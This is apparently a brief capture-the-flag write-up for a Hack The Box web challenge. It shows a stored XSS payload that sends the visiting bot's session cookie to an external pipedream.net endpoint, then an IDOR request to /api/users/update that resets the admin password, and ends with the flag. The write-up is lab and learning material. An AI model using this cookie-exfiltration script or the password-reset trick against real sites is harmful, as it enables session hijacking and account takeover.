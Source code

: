 Form triggers a bot to view the page so we can use XSS to exfil the cookie
```html
<script>fetch("https://eocudzg2el9ut46.m.pipedream.net/?"+ document.cookie)</script>
```

Setting the session cookie and going to /admin will give us the mod panel, from there there is a settings link allowing us to reset passwords for a uid, manipulate the request to reset for uid 1 to reset admin

```
POST /api/users/update
{
	"password":"test",
	"uid":"1"
}
```

Logging into the reset `admin` account gives us the flag
```
HTB{x55_4nd_id0rs_ar3_fun!!}
```